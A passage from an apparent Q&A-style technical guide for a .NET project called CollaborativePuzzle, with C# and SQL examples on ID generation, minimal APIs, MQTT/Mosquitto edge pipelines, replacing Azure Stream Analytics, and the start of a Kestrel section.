            var bytes = new byte[step];
            RandomNumberGenerator.Fill(bytes);
            
            for (int i = 0; i < step; i++)
            {
                var alphabetIndex = bytes[i] & mask;
                if (alphabetIndex < _alphabet.Length)
                {
                    id.Append(_alphabet[alphabetIndex]);
                    if (id.Length == size) return id.ToString();
                }
            }
        }
    }
}

// Usage for puzzle session codes
public class SessionService
{
    public string CreateSessionCode()
    {
        // 6-character code like "A3F9K2"
        return ShortIdGenerator.GenerateShortId(6).ToUpper();
    }
}
```

#### 3. Distributed System IDs (Snowflake-style)
```csharp
public class SnowflakeIdGenerator
{
    private readonly long _workerId;
    private readonly long _datacenterId;
    private long _sequence = 0;
    private long _lastTimestamp = -1;
    private readonly object _lock = new();
    
    // Twitter snowflake: timestamp(41) + datacenter(5) + worker(5) + sequence(12)
    private const int WorkerIdBits = 5;
    private const int DatacenterIdBits = 5;
    private const int SequenceBits = 12;
    
    private const long MaxWorkerId = -1L ^ (-1L << WorkerIdBits);
    private const long MaxDatacenterId = -1L ^ (-1L << DatacenterIdBits);
    private const long SequenceMask = -1L ^ (-1L << SequenceBits);
    
    private const int WorkerIdShift = SequenceBits;
    private const int DatacenterIdShift = SequenceBits + WorkerIdBits;
    private const int TimestampLeftShift = SequenceBits + WorkerIdBits + DatacenterIdBits;
    
    // Custom epoch (January 1, 2024)
    private static readonly long Epoch = new DateTime(2024, 1, 1, 0, 0, 0, DateTimeKind.Utc).Ticks / 10000;
    
    public SnowflakeIdGenerator(long workerId, long datacenterId)
    {
        if (workerId > MaxWorkerId || workerId < 0)
            throw new ArgumentException($"Worker ID must be between 0 and {MaxWorkerId}");
        if (datacenterId > MaxDatacenterId || datacenterId < 0)
            throw new ArgumentException($"Datacenter ID must be between 0 and {MaxDatacenterId}");
            
        _workerId = workerId;
        _datacenterId = datacenterId;
    }
    
    public long NextId()
    {
        lock (_lock)
        {
            var timestamp = GetCurrentTimestamp();
            
            if (timestamp < _lastTimestamp)
            {
                throw new InvalidOperationException("Clock moved backwards!");
            }
            
            if (_lastTimestamp == timestamp)
            {
                _sequence = (_sequence + 1) & SequenceMask;
                if (_sequence == 0)
                {
                    timestamp = WaitNextMillis(_lastTimestamp);
                }
            }
            else
            {
                _sequence = 0;
            }
            
            _lastTimestamp = timestamp;
            
            return ((timestamp - Epoch) << TimestampLeftShift) |
                   (_datacenterId << DatacenterIdShift) |
                   (_workerId << WorkerIdShift) |
                   _sequence;
        }
    }
    
    private long GetCurrentTimestamp()
    {
        return DateTimeOffset.UtcNow.ToUnixTimeMilliseconds();
    }
    
    private long WaitNextMillis(long lastTimestamp)
    {
        var timestamp = GetCurrentTimestamp();
        while (timestamp <= lastTimestamp)
        {
            timestamp = GetCurrentTimestamp();
        }
        return timestamp;
    }
}
```

### Use Cases for Different GUID Types

#### Database Primary Keys
```csharp
public class DatabaseGuidStrategy
{
    // For SQL Server - use sequential GUIDs
    public static Guid ForSqlServer()
    {
        return SequentialGuid.NewSequentialGuid();
    }
    
    // For PostgreSQL - regular GUIDs are fine
    public static Guid ForPostgreSql()
    {
        return Guid.NewGuid();
    }
    
    // For Cassandra/distributed - time-ordered
    public static Guid ForCassandra()
    {
        return GuidV7.NewGuid();
    }
}

// Entity configuration
public class Puzzle
{
    // Use sequential for better index performance
    public Guid Id { get; set; } = SequentialGuid.NewSequentialGuid();
    
    // Use short ID for user-facing code
    public string SessionCode { get; set; } = ShortIdGenerator.GenerateShortId(6);
    
    // Use regular GUID for correlation
    public Guid CorrelationId { get; set; } = Guid.NewGuid();
}
```

#### Distributed Tracing
```csharp
public class TracingIdGenerator
{
    // W3C Trace Context compatible
    public static string GenerateTraceId()
    {
        var bytes = new byte[16];
        RandomNumberGenerator.Fill(bytes);
        return BitConverter.ToString(bytes).Replace("-", "").ToLower();
    }
    
    public static string GenerateSpanId()
    {
        var bytes = new byte[8];
        RandomNumberGenerator.Fill(bytes);
        return BitConverter.ToString(bytes).Replace("-", "").ToLower();
    }
}
```

### Performance Comparison

```csharp
[Benchmark]
public class GuidBenchmark
{
    private readonly SnowflakeIdGenerator _snowflake = new(1, 1);
    
    [Benchmark]
    public Guid StandardGuid() => Guid.NewGuid();
    
    [Benchmark]
    public Guid SequentialGuid() => SequentialGuid.NewSequentialGuid();
    
    [Benchmark]
    public Guid TimeOrderedGuid() => GuidV7.NewGuid();
    
    [Benchmark]
    public long SnowflakeId() => _snowflake.NextId();
    
    [Benchmark]
    public string ShortId() => ShortIdGenerator.GenerateShortId(8);
}

// Results (approximate):
// StandardGuid:     50 ns
// SequentialGuid:   55 ns  
// TimeOrderedGuid:  65 ns
// SnowflakeId:      30 ns
// ShortId:         150 ns
```

### Database Performance Impact

```sql
-- Regular GUIDs cause fragmentation
CREATE TABLE Puzzles_Random (
    Id UNIQUEIDENTIFIER PRIMARY KEY,
    Title NVARCHAR(200)
);

-- Sequential GUIDs maintain order
CREATE TABLE Puzzles_Sequential (
    Id UNIQUEIDENTIFIER PRIMARY KEY DEFAULT NEWSEQUENTIALID(),
    Title NVARCHAR(200)
);

-- After inserting 1M records:
-- Puzzles_Random: 85% fragmentation, slower inserts
-- Puzzles_Sequential: 5% fragmentation, faster inserts
```

### Best Practices for CollaborativePuzzle

```csharp
public static class PuzzleIdStrategy
{
    // Database entities - sequential for performance
    public static Guid NewPuzzleId() => SequentialGuid.NewSequentialGuid();
    
    // Session codes - short for usability
    public static string NewSessionCode() => ShortIdGenerator.GenerateShortId(6).ToUpper();
    
    // API keys - cryptographically secure
    public static string NewApiKey()
    {
        var bytes = new byte[32];
        RandomNumberGenerator.Fill(bytes);
        return Convert.ToBase64String(bytes);
    }
    
    // Distributed events - time-ordered
    public static Guid NewEventId() => GuidV7.NewGuid();
    
    // Correlation IDs - standard GUID
    public static Guid NewCorrelationId() => Guid.NewGuid();
}
```

### Decision Matrix

```yaml
Choose Sequential GUID When:
  - Primary key in SQL Server
  - Need index performance
  - Inserting many records
  - Time-ordering matters

Choose Standard GUID When:
  - General purpose IDs
  - Cross-system compatibility
  - No performance concerns
  - Maximum randomness needed

Choose Short IDs When:
  - User-facing codes
  - URL parameters
  - Session identifiers
  - Human readability needed

Choose Snowflake IDs When:
  - Distributed systems
  - Need sortability
  - High-performance required
  - Avoiding UUID overhead

Choose Time-Ordered (v7) When:
  - Event sourcing
  - Distributed databases
  - Need time correlation
  - Future-proofing systems
```

## Q23: What does it mean to "Convert to minimal .NET Core APIs"?

Converting to minimal .NET Core APIs means refactoring traditional controller-based APIs to use the lightweight minimal API approach introduced in .NET 6. This pattern emphasizes simplicity, reduced ceremony, and improved performance for building HTTP APIs.

### What are Minimal APIs?

Minimal APIs provide a streamlined way to create HTTP endpoints with minimal code and configuration. Instead of controllers, action methods, and routing attributes, you define endpoints directly in Program.cs or through extension methods.

### Example from CollaborativePuzzle

Here's how minimal APIs are implemented in the project:

```csharp
// From SimpleMinimalApiEndpoints.cs
public static class SimpleMinimalApiEndpoints
{
    public static void MapMinimalApis(this WebApplication app)
    {
        // Group endpoints with common configuration
        var group = app.MapGroup("/api/demo")
            .WithTags("Demo")
            .WithOpenApi()
            .RequireRateLimiting("fixed");

        // Simple GET endpoint
        group.MapGet("/status", () =>
        {
            return Results.Ok(new
            {
                status = "running",
                version = "1.0.0",
                timestamp = DateTime.UtcNow,
                features = new[]
                {
                    "SignalR Hub",
                    "WebSocket Raw",
                    "WebRTC Signaling"
                }
            });
        })
        .WithName("GetApiStatus")
        .WithSummary("Get API status")
        .Produces<object>(StatusCodes.Status200OK);

        // POST endpoint with request body
        group.MapPost("/echo", (EchoRequest request) =>
        {
            return Results.Ok(new
            {
                message = request.Message,
                timestamp = DateTime.UtcNow
            });
        })
        .WithName("EchoMessage")
        .Produces<object>(StatusCodes.Status200OK);
    }
}
```

### Traditional Controller vs Minimal API

**Traditional Controller:**
```csharp
[ApiController]
[Route("api/[controller]")]
public class DemoController : ControllerBase
{
    private readonly ILogger<DemoController> _logger;
    
    public DemoController(ILogger<DemoController> logger)
    {
        _logger = logger;
    }
    
    [HttpGet("status")]
    public IActionResult GetStatus()
    {
        return Ok(new { status = "running" });
    }
}
```

**Minimal API Equivalent:**
```csharp
app.MapGet("/api/demo/status", () => 
    Results.Ok(new { status = "running" }));
```

### Benefits of Minimal APIs

1. **Reduced Boilerplate**
   - No controller classes needed
   - No constructor injection boilerplate
   - Direct lambda expressions for simple endpoints

2. **Better Performance**
   - Lower memory footprint
   - Faster startup time
   - Optimized request pipeline

3. **Simplified Configuration**
   - Fluent API for endpoint configuration
   - Inline OpenAPI documentation
   - Easy grouping and shared configuration

4. **Native Async Support**
   ```csharp
   app.MapGet("/data", async (IDataService service) => 
       await service.GetDataAsync());
   ```

### When to Use Minimal APIs

**Good For:**
- Microservices
- Simple CRUD operations
- Proof of concepts
- Performance-critical endpoints
- Serverless functions

**Consider Controllers For:**
- Complex business logic
- Multiple related endpoints
- Heavy use of action filters
- Existing large codebases
- Team familiarity with MVC pattern

### Advanced Minimal API Features

1. **Route Groups:**
   ```csharp
   var puzzleGroup = app.MapGroup("/api/puzzles")
       .RequireAuthorization()
       .WithOpenApi();
   ```

2. **Dependency Injection:**
   ```csharp
   app.MapGet("/users/{id}", async (int id, IUserService service) => 
       await service.GetUserAsync(id));
   ```

3. **Model Binding:**
   ```csharp
   app.MapPost("/puzzles", async (
       [FromBody] CreatePuzzleDto dto,
       [FromServices] IPuzzleService service,
       [FromHeader(Name = "X-API-Key")] string apiKey) =>
   {
       // Complex binding from multiple sources
   });
   ```

4. **Filters and Middleware:**
   ```csharp
   app.MapGet("/secure", () => "Secret data")
       .AddEndpointFilter<ApiKeyAuthFilter>()
       .RequireAuthorization("ApiKeyPolicy");
   ```

### Migration Strategy

1. **Gradual Migration:**
   - Keep existing controllers
   - Add new features as minimal APIs
   - Migrate simple endpoints first

2. **Hybrid Approach:**
   ```csharp
   // In Program.cs
   builder.Services.AddControllers(); // Keep controllers
   var app = builder.Build();
   
   app.MapControllers(); // Map traditional controllers
   app.MapMinimalApis(); // Map minimal APIs
   ```

3. **Testing Considerations:**
   ```csharp
   // Minimal APIs can be tested with WebApplicationFactory
   public class MinimalApiTests : IClassFixture<WebApplicationFactory<Program>>
   {
       [Fact]
       public async Task GetStatus_ReturnsSuccess()
       {
           var response = await _client.GetAsync("/api/demo/status");
           response.EnsureSuccessStatusCode();
       }
   }
   ```

### Best Practices

1. **Organize Endpoints:** Use extension methods to group related endpoints
2. **Use OpenAPI:** Add metadata for automatic documentation
3. **Handle Errors:** Use Results.Problem() for consistent error responses
4. **Validate Input:** Use FluentValidation or built-in validation
5. **Keep It Simple:** If logic gets complex, consider using a service class

## Q24: Describe Mosquitto broker and alternatives for MQTT -- what is the best practice food chain from IoT device to database server with minimal cost, maximal deliverability with expiration (events don't matter after X minutes of retry) and maximal edge routing to decrease dependence on common database server?

### What is Mosquitto?

Eclipse Mosquitto is an open-source message broker that implements MQTT protocol versions 5.0, 3.1.1, and 3.1. It's lightweight, suitable for IoT deployments, and runs on devices ranging from low-power single-board computers to full servers.

### Mosquitto in CollaborativePuzzle

The project uses Mosquitto as configured in docker-compose.yml:

```yaml
mqtt:
  image: eclipse-mosquitto:2
  container_name: puzzle-mqtt
  ports:
    - "1883:1883"    # MQTT protocol
    - "9001:9001"    # WebSocket protocol
  volumes:
    - ./docker/mosquitto/config:/mosquitto/config
    - ./docker/mosquitto/data:/mosquitto/data
    - ./docker/mosquitto/log:/mosquitto/log
```

### MQTT Broker Alternatives

1. **HiveMQ**
   - Enterprise-grade, highly scalable
   - Built-in clustering
   - Best for: Large-scale production deployments
   - Cost: Commercial license required

2. **EMQX**
   - High-performance, distributed
   - Built-in rule engine
   - Best for: Cloud-native deployments
   - Cost: Open source with enterprise options

3. **RabbitMQ with MQTT Plugin**
   - Multi-protocol support
   - Advanced routing capabilities
   - Best for: Mixed messaging needs
   - Cost: Open source

4. **AWS IoT Core**
   - Fully managed service
   - Integrated with AWS services
   - Best for: AWS-centric architectures
   - Cost: Pay-per-message

5. **Azure IoT Hub**
   - Managed service with device management
   - Built-in security features
   - Best for: Azure ecosystems
   - Cost: Pay-per-device/message

### Optimal IoT Data Pipeline Architecture

Here's the best practice architecture for your requirements:

```
┌─────────────┐     ┌─────────────┐     ┌──────────────┐     ┌────────────┐
│  IoT Device │────▶│ Edge Broker │────▶│ Cloud Broker │────▶│  Database  │
└─────────────┘     └─────────────┘     └──────────────┘     └────────────┘
       │                    │                     │                   ▲
       │                    │                     │                   │
       └────────────────────┴─────────────────────┴───────────────────┘
                        Message Expiry & Edge Processing
```

### Implementation Example from CollaborativePuzzle

```csharp
// MqttService.cs - Connection with retry and QoS
public async Task PublishAsync<T>(string topic, T payload, bool retain = false)
{
    var message = new MqttApplicationMessageBuilder()
        .WithTopic(topic)
        .WithPayload(json)
        .WithQualityOfServiceLevel(MqttQualityOfServiceLevel.AtLeastOnce)
        .WithRetainFlag(retain)
        .Build();

    await _mqttClient.EnqueueAsync(message);
}

// MqttMessageProcessor.cs - Edge processing logic
private async Task ProcessTableSensorData(string topic, string payload)
{
    var data = JsonSerializer.Deserialize<JsonElement>(payload);
    
    // Edge filtering - only process significant changes
    if (data.TryGetProperty("sensors", out var sensors))
    {
        var pressure = sensors.GetProperty("pressure");
        var activePieces = pressure.GetProperty("activePieces").GetInt32();
        
        // Only forward if piece count changed
        if (HasSignificantChange(activePieces))
        {
            await ForwardToDatabase(data);
        }
    }
}
```

### Edge Computing Strategy

1. **Local MQTT Broker per Location**
   ```yaml
   # Edge broker configuration
   listener 1883
   persistence true
   persistence_location /mosquitto/data/
   max_queued_messages 10000
   queue_qos0_messages true
   
   # Bridge to cloud broker
   connection cloud_bridge
   address cloud-broker.example.com:8883
   topic puzzle/+/data out 1 "" ""
   try_private true
   notifications false
   bridge_cafile /mosquitto/certs/ca.crt
   ```

2. **Message Filtering at Edge**
   ```csharp
   public class EdgeMessageFilter
   {
       private readonly Dictionary<string, DateTime> _lastSent = new();
       private readonly TimeSpan _minInterval = TimeSpan.FromSeconds(30);
       
       public bool ShouldForward(string deviceId, SensorData data)
       {
           // Check time-based throttling
           if (_lastSent.TryGetValue(deviceId, out var lastTime))
           {
               if (DateTime.UtcNow - lastTime < _minInterval)
                   return false;
           }
           
           // Check value-based filtering
           if (!HasSignificantChange(data))
               return false;
               
           _lastSent[deviceId] = DateTime.UtcNow;
           return true;
       }
   }
   ```

3. **Message Expiration**
   ```csharp
   public class ExpiringMessageQueue
   {
       public async Task EnqueueWithExpiry(Message message, TimeSpan ttl)
       {
           message.ExpiresAt = DateTime.UtcNow.Add(ttl);
           
           // Store in Redis with expiration
           var key = $"mqtt:pending:{message.Id}";
           await _redis.StringSetAsync(key, 
               JsonSerializer.Serialize(message), 
               ttl);
       }
   }
   ```

### Database Integration Pattern

1. **Batch Processing**
   ```csharp
   public class MqttToDatabaseBridge : BackgroundService
   {
       private readonly Channel<SensorReading> _buffer;
       
       protected override async Task ExecuteAsync(CancellationToken ct)
       {
           var batch = new List<SensorReading>();
           var batchTimer = new PeriodicTimer(TimeSpan.FromSeconds(5));
           
           while (!ct.IsCancellationRequested)
           {
               // Collect messages for batch insert
               while (batch.Count < 1000 && 
                      await _buffer.Reader.TryRead(out var reading))
               {
                   batch.Add(reading);
               }
               
               // Insert batch or on timer
               if (batch.Count >= 1000 || await batchTimer.WaitForNextTickAsync(ct))
               {
                   await BulkInsertToDatabase(batch);
                   batch.Clear();
               }
           }
       }
   }
   ```

2. **Time-Series Optimization**
   ```sql
   -- Partitioned table for time-series data
   CREATE TABLE SensorReadings (
       DeviceId VARCHAR(50),
       Timestamp DATETIME2,
       Data NVARCHAR(MAX),
       ProcessedAt DATETIME2 DEFAULT GETUTCDATE()
   ) ON PartitionScheme(Timestamp);
   
   -- Automatic cleanup of old data
   CREATE PROCEDURE sp_CleanupExpiredReadings
   AS
   BEGIN
       DELETE FROM SensorReadings 
       WHERE Timestamp < DATEADD(MINUTE, -30, GETUTCDATE());
   END
   ```

### Cost Optimization Strategies

1. **Message Deduplication**
   ```csharp
   public class MessageDeduplicator
   {
       private readonly IMemoryCache _cache;
       
       public bool IsDuplicate(string messageId, byte[] payload)
       {
           var hash = ComputeHash(payload);
           var cacheKey = $"mqtt:hash:{hash}";
           
           if (_cache.TryGetValue(cacheKey, out _))
               return true;
               
           _cache.Set(cacheKey, true, TimeSpan.FromMinutes(5));
           return false;
       }
   }
   ```

2. **Adaptive Sampling**
   ```csharp
   public class AdaptiveSampler
   {
       public bool ShouldSample(string deviceId, double currentValue)
       {
           var history = GetRecentValues(deviceId);
           var variance = CalculateVariance(history);
           
           // Higher variance = more frequent sampling
           var sampleRate = variance > 0.1 ? 1.0 : 0.1;
           return Random.NextDouble() < sampleRate;
       }
   }
   ```

3. **Compression at Edge**
   ```csharp
   public byte[] CompressPayload(object data)
   {
       var json = JsonSerializer.Serialize(data);
       using var output = new MemoryStream();
       using (var gzip = new GZipStream(output, CompressionLevel.Optimal))
       {
           var bytes = Encoding.UTF8.GetBytes(json);
           gzip.Write(bytes, 0, bytes.Length);
       }
       return output.ToArray();
   }
   ```

### Best Practices Summary

1. **Deploy edge brokers** close to IoT devices for local processing
2. **Implement message expiration** at both broker and application levels
3. **Use QoS 1** for important messages, QoS 0 for high-frequency telemetry
4. **Batch database writes** to reduce connection overhead
5. **Filter at the edge** to reduce cloud traffic
6. **Implement circuit breakers** for database connections
7. **Use time-series databases** for high-volume sensor data
8. **Enable MQTT persistence** at edge for offline scenarios
9. **Compress payloads** for bandwidth optimization
10. **Monitor message latency** and adjust expiration accordingly

## Q25: In another project, we want to eliminate Stream Analytics with MQTT data sources and SQL Server output -- how do we do that? How do we mirror the "hopper" functionality without the cost?

### Understanding Azure Stream Analytics Replacement

Azure Stream Analytics provides real-time data processing with SQL-like queries, windowing functions, and guaranteed delivery. Replacing it requires implementing these features in a cost-effective manner.

### Open-Source Alternative Architecture

```
┌──────────┐     ┌────────────┐     ┌─────────────┐     ┌────────────┐
│   MQTT   │────▶│  Kafka or  │────▶│   Apache    │────▶│ SQL Server │
│  Broker  │     │  Redis     │     │   Flink/    │     │            │
└──────────┘     │  Streams   │     │   Custom    │     └────────────┘
                 └────────────┘     └─────────────┘
                   Message Buffer     Processing Engine
```

### Implementation Strategy 1: Custom .NET Solution

```csharp
public class StreamAnalyticsReplacement : BackgroundService
{
    private readonly IMqttService _mqtt;
    private readonly IConnectionMultiplexer _redis;
    private readonly string _connectionString;
    private readonly Channel<ProcessingBatch> _processingChannel;

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        // Subscribe to MQTT topics
        await _mqtt.SubscribeAsync("sensors/+/data", ProcessMessage);
        
        // Start processing pipeline
        await Task.WhenAll(
            RunHopperCollector(stoppingToken),
            RunWindowProcessor(stoppingToken),
            RunSqlWriter(stoppingToken)
        );
    }

    private async Task RunHopperCollector(CancellationToken ct)
    {
        var hopper = new Dictionary<string, List<SensorData>>();
        var timer = new PeriodicTimer(TimeSpan.FromSeconds(5));
        
        while (!ct.IsCancellationRequested)
        {
            // Collect messages for time window
            if (await timer.WaitForNextTickAsync(ct))
            {
                foreach (var window in hopper)
                {
                    await _processingChannel.Writer.WriteAsync(
                        new ProcessingBatch
                        {
                            WindowStart = DateTime.UtcNow.AddSeconds(-5),
                            WindowEnd = DateTime.UtcNow,
                            Data = window.Value.ToList()
                        }, ct);
                }
                hopper.Clear();
            }
        }
    }
}
```

### Implementation Strategy 2: Redis Streams + Consumer Groups

```csharp
public class RedisStreamProcessor
{
    private readonly IConnectionMultiplexer _redis;
    private readonly IDatabase _db;
    
    public async Task SetupStreams()
    {
        // Create consumer group for guaranteed delivery
        await _db.StreamCreateConsumerGroupAsync(
            "mqtt:stream",
            "processors",
            StreamPosition.NewMessages);
    }
    
    public async Task ProcessStream(CancellationToken ct)
    {
        const string consumerName = $"processor-{Environment.MachineName}";
        
        while (!ct.IsCancellationRequested)
        {
            // Read from stream with acknowledgment
            var messages = await _db.StreamReadGroupAsync(
                "mqtt:stream",
                "processors",
                consumerName,
                count: 100,
                noAck: false);
                
            if (messages.Length > 0)
            {
                var batch = new List<StreamData>();
                
                foreach (var message in messages)
                {
                    batch.Add(DeserializeMessage(message));
                    
                    // Acknowledge processed message
                    await _db.StreamAcknowledgeAsync(
                        "mqtt:stream",
                        "processors",
                        message.Id);
                }
                
                await WriteBatchToSql(batch);
            }
            
            await Task.Delay(100, ct);
        }
    }
}
```

### Implementation Strategy 3: Apache Kafka Alternative

```csharp
public class KafkaStreamProcessor
{
    private readonly IProducer<string, byte[]> _producer;
    private readonly IConsumer<string, byte[]> _consumer;
    
    public async Task BridgeMqttToKafka()
    {
        // MQTT to Kafka bridge
        await _mqtt.SubscribeAsync("sensors/+/+", async (topic, payload) =>
        {
            var kafkaTopic = topic.Replace('/', '.');
            
            await _producer.ProduceAsync(kafkaTopic, 
                new Message<string, byte[]>
                {
                    Key = ExtractDeviceId(topic),
                    Value = Encoding.UTF8.GetBytes(payload),
                    Headers = new Headers
                    {
                        { "mqtt-topic", Encoding.UTF8.GetBytes(topic) },
                        { "timestamp", BitConverter.GetBytes(DateTimeOffset.UtcNow.ToUnixTimeMilliseconds()) }
                    }
                });
        });
    }
    
    public async Task ProcessKafkaStream()
    {
        _consumer.Subscribe("sensors.*");
        
        while (true)
        {
            var result = _consumer.Consume(TimeSpan.FromSeconds(1));
            if (result != null)
            {
                await ProcessMessage(result);
                _consumer.Commit(result);
            }
        }
    }
}
```

### Windowing Functions Implementation

```csharp
public class WindowingProcessor
{
    // Tumbling Window
    public class TumblingWindow<T>
    {
        private readonly TimeSpan _windowSize;
        private readonly Func<List<T>, Task> _processWindow;
        private List<T> _currentWindow = new();
        private DateTime _windowEnd;
        
        public async Task AddItem(T item)
        {
            if (DateTime.UtcNow >= _windowEnd)
            {
                await _processWindow(_currentWindow);
                _currentWindow = new List<T>();
                _windowEnd = DateTime.UtcNow.Add(_windowSize);
            }
            _currentWindow.Add(item);
        }
    }
    
    // Sliding Window
    public class SlidingWindow<T>
    {
        private readonly TimeSpan _windowSize;
        private readonly TimeSpan _slideInterval;
        private readonly Queue<(DateTime time, T item)> _items = new();
        
        public async Task<List<T>> GetCurrentWindow()
        {
            var cutoff = DateTime.UtcNow.Subtract(_windowSize);
            
            // Remove old items
            while (_items.Count > 0 && _items.Peek().time < cutoff)
            {
                _items.Dequeue();
            }
            
            return _items.Select(x => x.item).ToList();
        }
    }
    
    // Session Window
    public class SessionWindow<T>
    {
        private readonly TimeSpan _timeout;
        private readonly Dictionary<string, SessionData<T>> _sessions = new();
        
        public async Task AddItem(string sessionKey, T item)
        {
            if (!_sessions.TryGetValue(sessionKey, out var session))
            {
                session = new SessionData<T>();
                _sessions[sessionKey] = session;
            }
            
            session.Items.Add(item);
            session.LastActivity = DateTime.UtcNow;
            
            // Check for expired sessions
            await CleanupExpiredSessions();
        }
    }
}
```

### SQL Server Bulk Insert Optimization

```csharp
public class SqlBulkWriter
{
    private readonly string _connectionString;
    private readonly Channel<DataBatch> _writeChannel;
    
    public async Task BulkWriteProcessor(CancellationToken ct)
    {
        await using var connection = new SqlConnection(_connectionString);
        await connection.OpenAsync(ct);
        
        while (!ct.IsCancellationRequested)
        {
            var batches = new List<DataBatch>();
            var deadline = DateTime.UtcNow.AddSeconds(5);
            
            // Collect batches for up to 5 seconds or 10,000 records
            while (DateTime.UtcNow < deadline && batches.Sum(b => b.Count) < 10000)
            {
                if (_writeChannel.Reader.TryRead(out var batch))
                {
                    batches.Add(batch);
                }
                else
                {
                    await Task.Delay(100, ct);
                }
            }
            
            if (batches.Any())
            {
                await WriteBatchesToSql(connection, batches);
            }
        }
    }
    
    private async Task WriteBatchesToSql(SqlConnection conn, List<DataBatch> batches)
    {
        using var bulkCopy = new SqlBulkCopy(conn)
        {
            DestinationTableName = "SensorData",
            BatchSize = 1000,
            BulkCopyTimeout = 30
        };
        
        // Create DataTable from batches
        var dataTable = CreateDataTable(batches);
        
        // Column mappings
        bulkCopy.ColumnMappings.Add("DeviceId", "DeviceId");
        bulkCopy.ColumnMappings.Add("Timestamp", "Timestamp");
        bulkCopy.ColumnMappings.Add("Value", "Value");
        bulkCopy.ColumnMappings.Add("WindowStart", "WindowStart");
        bulkCopy.ColumnMappings.Add("WindowEnd", "WindowEnd");
        
        await bulkCopy.WriteToServerAsync(dataTable);
    }
}
```

### Complex Event Processing (CEP) Patterns

```csharp
public class EventPatternMatcher
{
    // Detect patterns like temperature spike followed by pressure drop
    public class PatternDetector
    {
        private readonly Dictionary<string, Queue<Event>> _deviceEvents = new();
        
        public async Task<bool> DetectTemperatureAnomaly(string deviceId, Event newEvent)
        {
            if (!_deviceEvents.ContainsKey(deviceId))
                _deviceEvents[deviceId] = new Queue<Event>();
                
            var events = _deviceEvents[deviceId];
            events.Enqueue(newEvent);
            
            // Keep only last 10 events
            while (events.Count > 10)
                events.Dequeue();
            
            // Pattern: 3 consecutive temperature increases > 5 degrees
            if (events.Count >= 3)
            {
                var temps = events.TakeLast(3)
                    .Where(e => e.Type == "temperature")
                    .Select(e => e.Value)
                    .ToList();
                    
                if (temps.Count == 3 && 
                    temps[1] > temps[0] + 5 && 
                    temps[2] > temps[1] + 5)
                {
                    await RaiseAlert("TemperatureSpike", deviceId);
                    return true;
                }
            }
            
            return false;
        }
    }
}
```

### Cost-Effective Hopper Implementation

```csharp
public class CostEffectiveHopper
{
    private readonly ConcurrentDictionary<string, HopperBucket> _buckets = new();
    private readonly Timer _flushTimer;
    
    public CostEffectiveHopper()
    {
        // Flush every 5 seconds
        _flushTimer = new Timer(FlushBuckets, null, 
            TimeSpan.FromSeconds(5), 
            TimeSpan.FromSeconds(5));
    }
    
    public void AddMessage(string partitionKey, object message)
    {
        var bucket = _buckets.GetOrAdd(partitionKey, 
            k => new HopperBucket());
            
        bucket.Add(message);
        
        // Flush if bucket is full
        if (bucket.Count >= 1000)
        {
            FlushBucket(partitionKey, bucket);
        }
    }
    
    private void FlushBuckets(object state)
    {
        foreach (var kvp in _buckets.ToList())
        {
            if (kvp.Value.Count > 0)
            {
                FlushBucket(kvp.Key, kvp.Value);
            }
        }
    }
    
    private async void FlushBucket(string key, HopperBucket bucket)
    {
        var items = bucket.Flush();
        if (items.Count > 0)
        {
            // Write to SQL Server using table-valued parameters
            await WriteToSqlUsingTVP(items);
        }
    }
}
```

### SQL Server Table-Valued Parameters for Performance

```sql
-- Create user-defined table type
CREATE TYPE SensorDataTableType AS TABLE
(
    DeviceId NVARCHAR(50),
    Timestamp DATETIME2,
    SensorType NVARCHAR(50),
    Value FLOAT,
    Metadata NVARCHAR(MAX)
);

-- Stored procedure using TVP
CREATE PROCEDURE sp_BulkInsertSensorData
    @SensorData SensorDataTableType READONLY
AS
BEGIN
    SET NOCOUNT ON;
    
    -- Insert with duplicate handling
    MERGE SensorReadings AS target
    USING @SensorData AS source
    ON target.DeviceId = source.DeviceId 
       AND target.Timestamp = source.Timestamp
    WHEN NOT MATCHED THEN
        INSERT (DeviceId, Timestamp, SensorType, Value, Metadata)
        VALUES (source.DeviceId, source.Timestamp, 
                source.SensorType, source.Value, source.Metadata);
END
```

### C# TVP Usage

```csharp
public async Task WriteToSqlUsingTVP(List<SensorData> data)
{
    using var connection = new SqlConnection(_connectionString);
    await connection.OpenAsync();
    
    // Create DataTable matching TVP structure
    var dataTable = new DataTable();
    dataTable.Columns.Add("DeviceId", typeof(string));
    dataTable.Columns.Add("Timestamp", typeof(DateTime));
    dataTable.Columns.Add("SensorType", typeof(string));
    dataTable.Columns.Add("Value", typeof(double));
    dataTable.Columns.Add("Metadata", typeof(string));
    
    foreach (var item in data)
    {
        dataTable.Rows.Add(
            item.DeviceId,
            item.Timestamp,
            item.SensorType,
            item.Value,
            JsonSerializer.Serialize(item.Metadata));
    }
    
    using var command = new SqlCommand("sp_BulkInsertSensorData", connection)
    {
        CommandType = CommandType.StoredProcedure
    };
    
    var tvpParam = command.Parameters.AddWithValue("@SensorData", dataTable);
    tvpParam.SqlDbType = SqlDbType.Structured;
    tvpParam.TypeName = "SensorDataTableType";
    
    await command.ExecuteNonQueryAsync();
}
```

### Comparison: Stream Analytics vs Custom Solution

| Feature | Stream Analytics | Custom Solution |
|---------|-----------------|-----------------|
| **Cost** | $120+/month per SU | Infrastructure only |
| **Setup Time** | Minutes | Days |
| **SQL-like Queries** | Built-in | Implement yourself |
| **Windowing** | Native support | Custom implementation |
| **Scaling** | Automatic | Manual/K8s |
| **Maintenance** | Microsoft managed | Self-managed |
| **Flexibility** | Limited to SQL | Full programming |
| **Integration** | Azure-centric | Any platform |

### Best Practices for Migration

1. **Start with Redis Streams** for simple scenarios
2. **Use Kafka** for complex event routing needs
3. **Implement backpressure** to prevent overload
4. **Monitor lag** between MQTT and SQL Server
5. **Use batch inserts** with TVPs for performance
6. **Implement circuit breakers** for SQL connection issues
7. **Add metrics collection** for monitoring
8. **Consider time-series databases** for high-volume data
9. **Use async/await properly** to avoid blocking
10. **Test failure scenarios** thoroughly

## Q26: How does Kestrel work? Why is it tied to HTTP/3 in our project?

### What is Kestrel?

Kestrel is the cross-platform web server that's included by default in ASP.NET Core. It's a lightweight, high-performance HTTP server implementation built on top of .NET's Socket and networking APIs.

### Kestrel Architecture

```
┌─────────────────┐
│   Web Browser   │
└────────┬────────┘
         │ HTTP/1.1, HTTP/2, HTTP/3
┌────────▼────────┐
│  Reverse Proxy  │ (Optional: IIS, Nginx, Apache)
└────────┬────────┘
         │
┌────────▼────────┐
│     Kestrel     │
├─────────────────┤
│ Transport Layer │
├─────────────────┤
│ Connection Mgmt │
├─────────────────┤
│ Request Pipeline│
└────────┬────────┘
         │
┌────────▼────────┐
